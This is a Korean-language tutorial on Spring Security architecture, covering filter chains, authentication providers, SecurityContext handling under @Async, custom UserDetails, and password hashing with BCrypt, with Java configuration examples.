








JWT 없는 요청이 `/api/admin`을 통과했다. 필터가 누락됐는지, 순서가 잘못됐는지, SecurityContext가 비어있는지 -- Spring Security 아키텍처를 모르면 어디서 막혀야 하는지조차 알 수 없다. 내부 메커니즘을 모르고 어노테이션만 붙이다 보면 보안 구멍은 반드시 생긴다.

> **비유로 먼저 이해하기**: Spring Security는 국제공항 보안 시스템과 같다.
> 1. 공항 입구(DelegatingFilterProxy): Tomcat이 관리. 실제 검사는 Spring 세계로 위임
> 2. 보안 검색대(FilterChainProxy): 어떤 보안 체인을 적용할지 라우팅
> 3. 여권 심사대(AuthenticationFilter): 신분증(토큰/비밀번호) 확인
> 4. 입국 심사관(AuthenticationProvider): 실제 신원 검증 로직 수행
> 5. 국가 데이터베이스(UserDetailsService): 입국자 등록 여부 조회
> 6. 탑승구 직원(AuthorizationFilter): 해당 게이트(리소스) 진입 권한 확인
>
> OAuth2는 이 위에 "다른 나라 여권으로 입국하는 절차"가 추가되는 것이다. 카카오(외국 여권 발급기관)가 "이 사람 인증됨"을 보증하면, 우리 공항은 그 보증을 믿고 입국을 허가한다.

---

## 1. Filter Chain 아키텍처: DelegatingFilterProxy → FilterChainProxy → SecurityFilterChain

### 왜 Servlet Filter가 진입점인가

Spring Security가 왜 Servlet Filter 레벨에서 동작하는지 먼저 이해해야 한다. HTTP 요청이 들어오면 Servlet 컨테이너(Tomcat)가 가장 먼저 받는다. DispatcherServlet에 도달하기 전 단계다. 즉, **Servlet Filter는 Spring MVC보다 먼저 실행된다.** 보안은 요청이 애플리케이션 코드에 닿기 전에 차단해야 한다 -- 이것이 Filter 레벨을 선택한 이유다.

Controller에서 보안을 처리하면 두 가지 문제가 생긴다. 첫째, 모든 Controller에 보안 코드가 분산된다. 둘째, 악의적 요청이 이미 애플리케이션 코드까지 들어온 상태다. SQL 주입, DoS 공격처럼 Controller에 닿기 전에 막아야 할 것들이 있다.

### DelegatingFilterProxy의 존재 이유

Servlet 컨테이너는 Spring `ApplicationContext`를 알지 못한다. Tomcat은 단순히 `javax.servlet.Filter` 인터페이스를 구현한 클래스를 등록·실행할 뿐이다. 그런데 Spring Security의 필터들은 Spring Bean이어야 한다 -- `@Autowired`, `@Value` 등 Spring의 DI 혜택을 받아야 하기 때문이다.

`DelegatingFilterProxy`가 이 간극을 메운다. Servlet 컨테이너에는 단순 Filter로 등록되지만, 실제 처리는 `ApplicationContext`에서 꺼낸 Spring Bean에 위임한다. 이름처럼 "위임하는 프록시"다.

```java
// Spring Boot는 자동으로 아래를 등록한다 (SecurityFilterAutoConfiguration)
// 수동 등록 시:
public class SecurityWebApplicationInitializer
        extends AbstractSecurityWebApplicationInitializer {
    // "springSecurityFilterChain" 이름의 Bean을 DelegatingFilterProxy로 감싸서
    // Servlet 컨테이너에 등록한다
}
```

`DelegatingFilterProxy`가 위임하는 Bean의 이름이 바로 `"springSecurityFilterChain"`이고, 그 구현체가 `FilterChainProxy`다.

### FilterChainProxy의 역할

`FilterChainProxy`는 Spring Security의 핵심 관리자다. 여러 개의 `SecurityFilterChain`을 보유하고, 들어온 요청 URL에 맞는 체인을 선택해 처리를 위임한다.

```java
// FilterChainProxy 내부 동작 (간략화)
public class FilterChainProxy extends GenericFilterBean {

    private List<SecurityFilterChain> filterChains;

    @Override
    public void doFilter(ServletRequest request, ServletResponse response,
                         FilterChain chain) throws IOException, ServletException {

        HttpServletRequest httpRequest = (HttpServletRequest) request;

        // 요청 URL에 맞는 SecurityFilterChain 선택
        List<Filter> filters = getFilters(httpRequest);

        if (filters == null || filters.isEmpty()) {
            // 매칭되는 체인 없음 → 보안 필터 없이 통과
            chain.doFilter(request, response);
            return;
        }

        // 가상 필터 체인 실행
        VirtualFilterChain virtualChain =
            new VirtualFilterChain(chain, filters);
        virtualChain.doFilter(request, response);
    }

    private List<Filter> getFilters(HttpServletRequest request) {
        for (SecurityFilterChain chain : filterChains) {
            if (chain.matches(request)) {  // RequestMatcher로 URL 매칭
                return chain.getFilters();
            }
        }
        return null;
    }
}
```

여러 `SecurityFilterChain`을 만들 수 있는 이유가 여기 있다. `/api/**`와 `/admin/**`에 다른 보안 정책을 적용하고 싶다면:

```java
@Configuration
@EnableWebSecurity
public class MultiChainSecurityConfig {

    // order가 낮을수록 먼저 매칭된다
    @Bean
    @Order(1)
    public SecurityFilterChain apiFilterChain(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/api/**")   // 이 체인이 담당하는 URL
            .sessionManagement(s -> s.sessionCreationPolicy(SessionCreationPolicy.STATELESS))
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/api/public/**").permitAll()
                .anyRequest().authenticated()
            );
        return http.build();
    }

    @Bean
    @Order(2)
    public SecurityFilterChain adminFilterChain(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/admin/**")
            .formLogin(Customizer.withDefaults())   // 폼 로그인 활성화
            .authorizeHttpRequests(auth -> auth
                .anyRequest().hasRole("ADMIN")
            );
        return http.build();
    }
}
```



---

## 2. 핵심 필터들의 역할과 WHY

### 필터 실행 순서

Spring Security 필터들은 `FilterOrderRegistration`이 관리하며, 커스텀 필터 삽입 시 `addFilterBefore` / `addFilterAfter` / `addFilterAt`으로 정확한 위치를 지정해야 한다. 순서가 중요한 이유는 앞 필터가 `SecurityContext`를 세팅해야 뒷 필터가 인증 정보를 읽을 수 있기 때문이다.

실제 실행 순서 (중요한 것만):

| 순서 | 필터 | 역할 |
|------|------|------|
| 1 | `DisableEncodeUrlFilter` | URL에 jsessionid 인코딩 차단 |
| 2 | `SecurityContextHolderFilter` | SecurityContext ThreadLocal 초기화/정리 |
| 3 | `CsrfFilter` | CSRF 토큰 검증 |
| 4 | `LogoutFilter` | 로그아웃 요청 처리 |
| 5 | `UsernamePasswordAuthenticationFilter` | 폼 로그인 처리 |
| 6 | `BearerTokenAuthenticationFilter` | OAuth2 Resource Server JWT 처리 |
| 7 | `BasicAuthenticationFilter` | HTTP Basic 인증 처리 |
| 8 | `RequestCacheAwareFilter` | 로그인 전 원래 요청 복원 |
| 9 | `AnonymousAuthenticationFilter` | 인증 없으면 익명 Authentication 주입 |
| 10 | `ExceptionTranslationFilter` | 보안 예외 → HTTP 응답 변환 |
| 11 | `AuthorizationFilter` | 인가 처리 (최종 결정) |

**`authorizeHttpRequests` 순서가 왜 중요한가:** Spring Security 6.x의 `AuthorizationFilter`는 규칙을 위에서 아래로 순서대로 평가하고 처음 매칭되는 규칙을 적용한다. `.anyRequest().authenticated()`를 먼저 쓰면 그 아래 `.requestMatchers("/api/public/**").permitAll()`은 영원히 도달하지 못한다.

### SecurityContextHolderFilter -- ThreadLocal 생명주기 관리자

이 필터가 가장 먼저 실행되는 이유: 모든 후속 필터와 Controller가 `SecurityContextHolder.getContext()`를 호출할 때 유효한 컨텍스트가 있어야 하기 때문이다.

```java
public class SecurityContextHolderFilter extends GenericFilterBean {

    private final SecurityContextRepository securityContextRepository;

    @Override
    public void doFilter(ServletRequest request, ServletResponse response,
                         FilterChain chain) throws ServletException, IOException {

        // 1. 저장소(세션 또는 메모리)에서 SecurityContext 로드
        Supplier<SecurityContext> deferredContext =
            securityContextRepository.loadDeferredContext((HttpServletRequest) request);

        try {
            // 2. ThreadLocal에 설정 (지연 로딩 — 실제로 필요할 때까지 DB 안 뜀)
            SecurityContextHolder.setDeferredContext(deferredContext);
            chain.doFilter(request, response);
        } finally {
            // 3. 요청 처리 완료 후 반드시 정리 (메모리 누수 방지)
            SecurityContextHolder.clearContext();
        }
    }
}
```

`finally` 블록의 `clearContext()`가 중요하다. 서블릿 컨테이너는 스레드풀을 재사용한다. 정리하지 않으면 이전 요청의 인증 정보가 다음 요청에 남아있어 다른 사용자가 자신도 모르게 이전 사용자의 권한으로 동작할 수 있다.

### UsernamePasswordAuthenticationFilter -- 폼 로그인의 핵심

```java
public class UsernamePasswordAuthenticationFilter
        extends AbstractAuthenticationProcessingFilter {

    // 기본 매칭: POST /login
    public UsernamePasswordAuthenticationFilter() {
        super(new AntPathRequestMatcher("/login", "POST"));
    }

    @Override
    public Authentication attemptAuthentication(HttpServletRequest request,
                                                 HttpServletResponse response) {
        // 1. 요청에서 username/password 추출
        String username = obtainUsername(request);
        String password = obtainPassword(request);

        // 2. 미인증 토큰 생성 (authenticated = false)
        UsernamePasswordAuthenticationToken authToken =
            UsernamePasswordAuthenticationToken.unauthenticated(username, password);

        // 3. AuthenticationManager에 인증 위임
        return this.getAuthenticationManager().authenticate(authToken);
    }
}
```

이 필터가 왜 `/login` POST 전용인가: 폼 로그인은 세션 기반 인증의 시작점이다. 인증 성공 시 세션에 `SecurityContext`가 저장되고, 이후 요청에서 세션을 통해 인증 상태가 유지된다. REST API + JWT 방식에서는 이 필터가 사용되지 않는다.

### BasicAuthenticationFilter -- HTTP Basic 인증

```java
public class BasicAuthenticationFilter extends OncePerRequestFilter {

    @Override
    protected void doFilterInternal(HttpServletRequest request,
                                     HttpServletResponse response,
                                     FilterChain chain) throws IOException, ServletException {

        // Authorization: Basic base64(username:password) 헤더 파싱
        UsernamePasswordAuthenticationToken token =
            this.authenticationConverter.convert(request);

        if (token == null) {
            // Basic 헤더 없음 → 다음 필터로 통과
            chain.doFilter(request, response);
            return;
        }

        // 이미 이 요청에서 인증됐으면 다시 인증 불필요
        if (authenticationIsRequired(token.getName())) {
            Authentication auth = authenticationManager.authenticate(token);
            SecurityContextHolder.getContext().setAuthentication(auth);
        }

        chain.doFilter(request, response);
    }
}
```

HTTP Basic은 매 요청마다 `Authorization: Basic base64(user:pass)` 헤더를 보낸다. 세션이 없고 Stateless하지만 -- 매 요청마다 DB 조회가 발생하는 단점이 있다. Swagger UI, Actuator 보호에 주로 쓰인다.

### ExceptionTranslationFilter -- 보안 예외의 번역기

이 필터가 `AuthorizationFilter` 바로 앞에 위치하는 이유를 이해하는 것이 중요하다. `AuthorizationFilter`가 던지는 두 가지 예외를 캐치해 적절한 HTTP 응답으로 변환하는 것이 이 필터의 유일한 역할이다.

```java
public class ExceptionTranslationFilter extends GenericFilterBean {

    private AuthenticationEntryPoint authenticationEntryPoint;
    private AccessDeniedHandler accessDeniedHandler;

    @Override
    public void doFilter(ServletRequest request, ServletResponse response,
                         FilterChain chain) throws IOException, ServletException {
        try {
            chain.doFilter(request, response);  // 후속 필터(AuthorizationFilter) 실행
        } catch (AuthenticationException e) {
            // 인증 실패 (비인증 사용자가 보호된 리소스 접근)
            // → 401 또는 로그인 페이지로 리다이렉트
            handleAuthenticationException(request, response, chain, e);
        } catch (AccessDeniedException e) {
            // 인가 실패 (인증됐지만 권한 부족)
            if (isAnonymous()) {
                // 익명 사용자 → 로그인으로 보내기
                sendToLoginPage(request, response, e);
            } else {
                // 인증된 사용자 → 403 Forbidden
                accessDeniedHandler.handle(request, response, e);
            }
        }
    }
}
```



`AuthenticationEntryPoint`와 `AccessDeniedHandler`를 커스터마이징해서 JSON 응답을 반환할 수 있다:

```java
@Component
public class CustomAuthenticationEntryPoint implements AuthenticationEntryPoint {

    private final ObjectMapper objectMapper;

    @Override
    public void commence(HttpServletRequest request, HttpServletResponse response,
                         AuthenticationException authException) throws IOException {
        response.setStatus(HttpStatus.UNAUTHORIZED.value());
        response.setContentType(MediaType.APPLICATION_JSON_VALUE);
        response.setCharacterEncoding("UTF-8");

        Map<String, Object> body = Map.of(
            "status", 401,
            "error", "Unauthorized",
            "message", "인증이 필요합니다",
            "path", request.getServletPath()
        );
        objectMapper.writeValue(response.getOutputStream(), body);
    }
}

@Component
public class CustomAccessDeniedHandler implements AccessDeniedHandler {

    @Override
    public void handle(HttpServletRequest request, HttpServletResponse response,
                       AccessDeniedException accessDeniedException) throws IOException {
        response.setStatus(HttpStatus.FORBIDDEN.value());
        response.setContentType(MediaType.APPLICATION_JSON_VALUE);

        Map<String, Object> body = Map.of(
            "status", 403,
            "error", "Forbidden",
            "message", "접근 권한이 없습니다"
        );
        new ObjectMapper().writeValue(response.getOutputStream(), body);
    }
}
```

```java
// SecurityConfig에서 등록
http.exceptionHandling(ex -> ex
    .authenticationEntryPoint(customAuthenticationEntryPoint)
    .accessDeniedHandler(customAccessDeniedHandler)
);
```

### FilterSecurityInterceptor (구) vs AuthorizationFilter (신)

Spring Security 5.5 이전에는 `FilterSecurityInterceptor`가 인가를 담당했고, `AccessDecisionManager` + `AccessDecisionVoter` 패턴을 사용했다. 5.5부터는 `AuthorizationFilter`와 `AuthorizationManager`로 교체됐다. 새 코드는 `AuthorizationManager`를 사용하자.

```java
// 구 방식 (deprecated)
http.authorizeRequests()  // FilterSecurityInterceptor 기반
    .antMatchers("/admin/**").hasRole("ADMIN");

// 신 방식
http.authorizeHttpRequests()  // AuthorizationFilter 기반
    .requestMatchers("/admin/**").hasRole("ADMIN");
```

---

## 3. Authentication 흐름: AuthenticationManager → ProviderManager → AuthenticationProvider 체인

### 왜 Chain of Responsibility 패턴인가

애플리케이션은 여러 인증 방식을 동시에 지원할 수 있다 -- 폼 로그인, JWT, OAuth2, LDAP. 단일 클래스가 모든 방식을 처리하면 Open/Closed Principle 위반이다. 새 인증 방식을 추가할 때마다 기존 코드를 수정해야 한다.

Chain of Responsibility 패턴을 쓰면 각 `AuthenticationProvider`가 자신이 처리할 수 있는 `Authentication` 타입만 담당한다. 새 방식 추가 = 새 `Provider` 클래스 하나 추가. 기존 코드 불변.

```java
public interface AuthenticationProvider {

    // 실제 인증 처리
    Authentication authenticate(Authentication authentication)
            throws AuthenticationException;

    // 이 Provider가 처리할 수 있는 Authentication 타입인지 확인
    boolean supports(Class<?> authentication);
}
```

`ProviderManager`의 내부 동작:

```java
public class ProviderManager implements AuthenticationManager {

    private List<AuthenticationProvider> providers;
    private AuthenticationManager parent;  // 부모 ProviderManager (계층 구조 가능)

    @Override
    public Authentication authenticate(Authentication authentication)
            throws AuthenticationException {

        AuthenticationException lastException = null;

        for (AuthenticationProvider provider : providers) {
            // 1. 이 Provider가 해당 Authentication 타입을 지원하는지 확인
            if (!provider.supports(authentication.getClass())) {
                continue;
            }

            try {
                // 2. 지원하면 인증 시도
                Authentication result = provider.authenticate(authentication);

                if (result != null) {
                    // 3. 성공 — credentials(비밀번호) 삭제 후 반환
                    copyDetails(authentication, result);
                    return result;
                }
            } catch (AccountStatusException | InternalAuthenticationServiceException e) {
                // 즉시 실패 (계정 잠금, 비활성화 등)
                prepareException(e, authentication);
                throw e;
            } catch (AuthenticationException e) {
                lastException = e;
                // 다음 Provider 시도
            }
        }

        // 4. 모든 Provider 실패 → 부모에 위임
        if (parent != null) {
            try {
                return parent.authenticate(authentication);
            } catch (AuthenticationException e) {
                lastException = e;
            }
        }

        throw lastException;
    }
}
```

### DaoAuthenticationProvider 상세 동작

```java
public class DaoAuthenticationProvider extends AbstractUserDetailsAuthenticationProvider {

    private UserDetailsService userDetailsService;
    private PasswordEncoder passwordEncoder;

    @Override
    protected UserDetails retrieveUser(String username,
            UsernamePasswordAuthenticationToken authentication) {

        try {
            // UserDetailsService에서 사용자 로드
            UserDetails loadedUser =
                userDetailsService.loadUserByUsername(username);

            if (loadedUser == null) {
                throw new InternalAuthenticationServiceException(
                    "UserDetailsService returned null");
            }
            return loadedUser;
        } catch (UsernameNotFoundException ex) {
            // 타이밍 공격 방지: 사용자 없어도 비밀번호 해시 연산 실행
            mitigateAgainstTimingAttack(authentication);
            throw ex;
        }
    }

    @Override
    protected void additionalAuthenticationChecks(UserDetails userDetails,
            UsernamePasswordAuthenticationToken authentication) {

        // 비밀번호 검증
        if (!passwordEncoder.matches(
                authentication.getCredentials().toString(),
                userDetails.getPassword())) {
            throw new BadCredentialsException("비밀번호 불일치");
        }
    }
}
```

타이밍 공격(Timing Attack) 방지가 중요하다. 사용자가 존재하지 않을 때 즉시 응답하면 공격자가 응답 시간으로 계정 존재 여부를 알 수 있다. `mitigateAgainstTimingAttack()`은 사용자가 없어도 BCrypt 해시 연산을 강제 실행해 응답 시간을 균일하게 만든다.



### 커스텀 AuthenticationProvider 구현

```java
@Component
public class JwtAuthenticationProvider implements AuthenticationProvider {

    private final JwtTokenValidator jwtTokenValidator;
    private final UserDetailsService userDetailsService;

    @Override
    public Authentication authenticate(Authentication authentication)
            throws AuthenticationException {

        String token = (String) authentication.getCredentials();

        // JWT 검증
        Claims claims = jwtTokenValidator.validateAndExtract(token);

        String username = claims.getSubject();
        UserDetails userDetails = userDetailsService.loadUserByUsername(username);

        return new UsernamePasswordAuthenticationToken(
            userDetails,
            null,  // credentials는 null로 — 민감 정보 제거
            userDetails.getAuthorities()
        );
    }

    @Override
    public boolean supports(Class<?> authentication) {
        // 이 Provider는 JwtAuthenticationToken만 처리
        return JwtAuthenticationToken.class.isAssignableFrom(authentication);
    }
}
```

---

## 4. SecurityContext: ThreadLocal 기반 저장소와 전략

### ThreadLocal을 선택한 이유

멀티스레드 환경에서 인증 정보를 공유하는 방법은 세 가지다: 전역 변수(위험), 메서드 파라미터로 전달(번거로움), ThreadLocal(각 스레드 독립 저장소).

ThreadLocal은 각 스레드가 자신만의 변수 공간을 갖는다. 스레드 A의 ThreadLocal과 스레드 B의 ThreadLocal은 같은 키지만 독립된 값을 가진다. Tomcat 스레드풀에서 각 HTTP 요청이 별도 스레드에서 처리되므로, ThreadLocal을 쓰면 스레드 간 인증 정보가 자동으로 격리된다.

```java
public class SecurityContextHolder {

    // 전략 이름 상수
    public static final String MODE_THREADLOCAL = "MODE_THREADLOCAL";
    public static final String MODE_INHERITABLETHREADLOCAL = "MODE_INHERITABLETHREADLOCAL";
    public static final String MODE_GLOBAL = "MODE_GLOBAL";

    private static String strategyName = MODE_THREADLOCAL;
    private static SecurityContextHolderStrategy strategy;

    // 기본 전략: ThreadLocalSecurityContextHolderStrategy
    // → 현재 스레드에만 SecurityContext 유지

    // 현재 인증 정보 접근
    public static SecurityContext getContext() {
        return strategy.getContext();
    }

    public static void setContext(SecurityContext context) {
        strategy.setContext(context);
    }

    public static void clearContext() {
        strategy.clearContext();
    }
}
```

### MODE_INHERITABLETHREADLOCAL -- @Async 문제 해결

`@Async`는 새 스레드에서 실행된다. 기본 `MODE_THREADLOCAL`은 부모 스레드의 ThreadLocal을 자식 스레드가 보지 못한다. 인증 정보가 사라진다.

```java
@Service
public class ReportService {

    @Async
    public CompletableFuture<Report> generateReport() {
        // MODE_THREADLOCAL이면 여기서 SecurityContext가 비어있다!
        Authentication auth = SecurityContextHolder.getContext().getAuthentication();
        // auth == null → NullPointerException 또는 익명 처리
        String currentUser = auth.getName();
        // ...
    }
}
```

해결책 1: `MODE_INHERITABLETHREADLOCAL`로 전략 변경

```java
@SpringBootApplication
public class Application {

    @PostConstruct
    public void init() {
        // 부모 스레드의 SecurityContext를 자식 스레드에 상속
        SecurityContextHolder.setStrategyName(
            SecurityContextHolder.MODE_INHERITABLETHREADLOCAL);
    }
}
```

주의: `InheritableThreadLocal`은 스레드풀 재사용 환경에서 의도치 않게 이전 인증 정보가 남을 수 있다.

해결책 2 (권장): `DelegatingSecurityContextAsyncTaskExecutor`

```java
@Configuration
@EnableAsync
public class AsyncConfig implements AsyncConfigurer {

    @Override
    public Executor getAsyncExecutor() {
        ThreadPoolTaskExecutor executor = new ThreadPoolTaskExecutor();
        executor.setCorePoolSize(4);
        executor.setMaxPoolSize(8);
        executor.setQueueCapacity(100);
        executor.setThreadNamePrefix("async-");
        executor.initialize();

        // SecurityContext를 명시적으로 복사해서 새 스레드에 전달
        // 스레드풀 재사용 문제 없음
        return new DelegatingSecurityContextAsyncTaskExecutor(executor);
    }
}
```

해결책 3: `@Async` 메서드에 Authentication을 파라미터로 전달

```java
@Service
public class ReportService {

    @Async
    public CompletableFuture<Report> generateReport(Authentication authentication) {
        // 파라미터로 직접 전달 — 가장 명시적이고 안전
        String currentUser = authentication.getName();
        // ...
    }
}

// 호출하는 쪽
@Service
public class ReportController {

    @GetMapping("/report")
    public CompletableFuture<Report> getReport() {
        Authentication auth = SecurityContextHolder.getContext().getAuthentication();
        return reportService.generateReport(auth);
    }
}
```

---

## 5. UserDetailsService vs UserDetails: 분리 이유와 커스텀 구현

### 왜 분리했는가

`UserDetailsService`는 **로딩 전략**이고, `UserDetails`는 **사용자 표현**이다. 이 둘을 분리한 이유는 인터페이스 분리 원칙(ISP)과 단일 책임 원칙(SRP) 때문이다.

- `UserDetailsService`: "username으로 사용자를 어떻게 로드할 것인가" -- DB, LDAP, 인메모리, Redis 등 다양한 소스를 같은 인터페이스로 교체 가능
- `UserDetails`: "로드된 사용자가 어떤 정보를 갖는가" -- 도메인 엔티티에 따라 자유롭게 확장 가능

```java
// 도메인 엔티티
@Entity
@Table(name = "users")
public class User {

    @Id @GeneratedValue(strategy = GenerationType.IDENTITY)
    private Long id;

    private String email;
    private String password;   // BCrypt 해시

    @Enumerated(EnumType.STRING)
    private UserRole role;

    private boolean active;
    private boolean locked;

    @Column(name = "failed_login_attempts")
    private int failedLoginAttempts;
}

// UserDetails 구현 — Spring Security와 도메인 엔티티 연결
public class CustomUserDetails implements UserDetails {

    private final User user;

    public CustomUserDetails(User user) {
        this.user = user;
    }

    @Override
    public Collection<? extends GrantedAuthority> getAuthorities() {
        // Role과 Permission을 모두 GrantedAuthority로 반환
        return user.getRole().getPermissions().stream()
            .map(permission -> new SimpleGrantedAuthority(permission.getValue()))
            .collect(Collectors.toSet());
    }

    @Override
    public String getPassword() {
        return user.getPassword();
    }

    @Override
    public String getUsername() {
        return user.getEmail();
    }

    @Override
    public boolean isAccountNonExpired() {
        return true;
    }

    @Override
    public boolean isAccountNonLocked() {
        return !user.isLocked();
    }

    @Override
    public boolean isCredentialsNonExpired() {
        return true;
    }

    @Override
    public boolean isEnabled() {
        return user.isActive();
    }

    // 도메인 정보 직접 노출 (Spring Security 외 용도)
    public Long getId() { return user.getId(); }
    public String getName() { return user.getName(); }
    public UserRole getRole() { return user.getRole(); }
}
```

```java
@Service
@RequiredArgsConstructor
public class CustomUserDetailsService implements UserDetailsService {

    private final UserRepository userRepository;

    @Override
    @Transactional(readOnly = true)
    public UserDetails loadUserByUsername(String username)
            throws UsernameNotFoundException {

        User user = userRepository.findByEmail(username)
            .orElseThrow(() -> new UsernameNotFoundException(
                "사용자를 찾을 수 없습니다: " + username));

        // 계정 잠금 처리
        if (user.getFailedLoginAttempts() >= 5) {
            user.setLocked(true);
            // locked는 isAccountNonLocked()에서 처리됨
        }

        return new CustomUserDetails(user);
    }
}
```

Controller에서 `@AuthenticationPrincipal`로 주입:

```java
@RestController
@RequestMapping("/api/users")
public class UserController {

    @GetMapping("/me")
    public ResponseEntity<UserProfileResponse> getMyProfile(
            @AuthenticationPrincipal CustomUserDetails userDetails) {

        // SecurityContextHolder를 직접 꺼내지 않아도 됨
        Long userId = userDetails.getId();
        return ResponseEntity.ok(userService.getProfile(userId));
    }

    @GetMapping("/admin/users")
    @PreAuthorize("hasRole('ADMIN')")
    public ResponseEntity<List<UserResponse>> getAllUsers() {
        return ResponseEntity.ok(userService.findAll());
    }
}
```

---

## 6. Password Encoding: BCrypt, Argon2id, DelegatingPasswordEncoder

### 왜 MD5/SHA-256으로 저장하면 안 되는가

MD5와 SHA-256은 **암호화 해시**이지 **비밀번호 해시**가 아니다. 세 가지 이유로 부적합하다.

**첫째, Rainbow Table 공격**: MD5("password") = 5f4dcc3b5aa765d61d8327deb882cf99. 이미 수십억 개의 MD5 해시가 사전에 수록돼 있다. 이 해시를 보는 순간 원문을 알 수 있다.

**둘째, 속도가 너무 빠름**: SHA-256은 GPU 하나로 초당 10억 개 이상을 계산할 수 있다. 공격자가 무차별 대입 공격을 할 때 빠른 해시는 독이다.

**셋째, 솔트 없음**: 같은 비밀번호는 같은 해시를 만든다. 여러 사용자가 같은 비밀번호를 써도 해시를 보면 알 수 있다.

### BCrypt 내부 동작

BCrypt는 Blowfish 암호화 알고리즘 기반의 비밀번호 해시 함수다. 핵심 특징:

1. **Salt 자동 생성**: 128비트 랜덤 솔트를 자동 생성해 해시에 포함. 같은 비밀번호도 매번 다른 해시
2. **Cost Factor (Work Factor)**: 2^cost 번 반복 해시. cost=10이면 2^10=1,024번 반복. cost를 높이면 연산 시간 증가 → 무차별 대입 공격 비용 기하급수적 상승
3. **Adaptive**: 하드웨어가 빨라져도 cost를 높여 동일한 보안 수준 유지 가능

```
BCrypt 해시 구조:
$2a$10$N9qo8uLOickgx2ZMRZoMyeIjZAgcfl7p92ldGxad68LJZdL17lhWy

$2a  = BCrypt 버전
$10  = cost factor (10)
$N9qo8uLOickgx2ZMRZoMye = 솔트 (22자, Base64 인코딩)
IjZAgcfl7p92ldGxad68LJZdL17lhWy = 해시 (31자)
```

### BCrypt cost factor 튜닝

